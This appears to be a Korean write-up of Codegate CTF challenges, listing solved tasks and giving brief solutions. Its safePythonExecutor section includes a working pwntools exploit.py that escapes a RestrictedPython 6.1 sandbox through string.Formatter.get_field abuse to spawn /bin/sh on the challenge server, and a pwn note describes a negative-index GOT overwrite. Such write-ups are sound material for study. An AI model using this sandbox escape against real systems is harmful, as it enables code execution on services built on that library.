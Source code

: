 ### shielder(조수호) 

1. misc/Hello Codegate
2. misc/Captcha World
3. misc/safePythonExecutor
4. pwn/What's Happening?
5. pwn/Magic Palette
6. crypto/Encrypted flag
7. rev/inital
8. rev/C0D3Matr1x
9. web/Ping Tester

---
## misc/Hello Codegate

디코 `notice` 채널에 플래그가 나와있다.

---
## misc/Captcha World

캡챠를 입력해야 한다. 근데 10번만 하면 되기 때문에 그냥 직접 입력해주면 된다.

---
## misc/safePythonExecutor

중요한 것은 `RestrictedPython==6.1`이다. CVE를 찾아보니 format, format_map, formatter 쪽에 필터링 실패 취약점이 있다고 한다.

https://github.com/nikosChalk/ctf-writeups/blob/master/uiuctf23/pyjail/rattler-read/writeup/README.md

위의 라업 논리를 그대로 따라가면 똑같은 방법으로 풀 수 있다.

### exploit.py

```python
from pwn import *

p = remote('3.35.196.167', 42424)
#p = process(['python3', 'prob.py'])

#dt = '''string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], {"a": ""})[0]()[84].load_module("os").system("sh")'''
dt = '''
class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); 
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
'''.replace('\n', '\r')
p.sendlineafter(b': ', dt)
p.send(b'\n')
p.interactive()
```

---
## pwn/What's Happening?

pie가 꺼져 있다. Partial RELRO이다. 행성 정보 업데이트를 하는데 음수 인덱스를 안 막아 놨다. 그래서 got overwrite가 된다